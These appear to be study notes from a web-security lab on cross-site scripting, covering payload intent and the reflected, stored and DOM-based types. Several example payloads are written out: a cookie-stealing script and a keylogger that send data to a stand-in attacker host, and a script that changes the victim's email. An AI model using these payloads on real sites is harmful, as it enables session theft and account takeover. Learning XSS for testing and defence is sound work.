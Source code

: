 Payload:
	The JS code the attacker wants to be executed on the targets computer
- Intention:
	- What the attacker wants the code to do
- Modification
	- Changes to the code we need to make it execute

Types of intention:
- Proof of concept
	- fx making an alert pop-up  
	- `<script>alert('xss');</script>`
- Session stealing
	- Stealing the targets session cookies, such as login tokens
	- `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
- Key logger
	- Typing will be forwarded to attacker
	- `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key)); }</script>`
- Business logic
	- Calling a particular network resource or function
	- `<script>user.changeEmail('attacker@hacker.thm');</script>`

### Reflected XXS
Happens when user-supplied data in an HTTP request is included in the webpage source without any validation  
![](../assets/try8.png)  

How to test for Reflected XSS:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (altough unlikely exploitable in practice)

### Stored XSS
Payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page  
![](../assets/try9.png)  

How to test for Stored XSS:
- Comments on a blog
- User profile information
- Website listings

### DOM Based XSS
Where the JS execution happens directly in the browser without any new pages being loaded or data being submitted to backend code. Execution occurs when the website JS code acts on input or user interaction

How to test for DOM Based XSS:
Can be challenging to test for and requires certain JS knowledge to read source code. Attacker should look for code that access certain variables, such as `window.location.*` parameters. Then attacker needs to check if values are handled unsafely, for example if passed to `eval()`.  
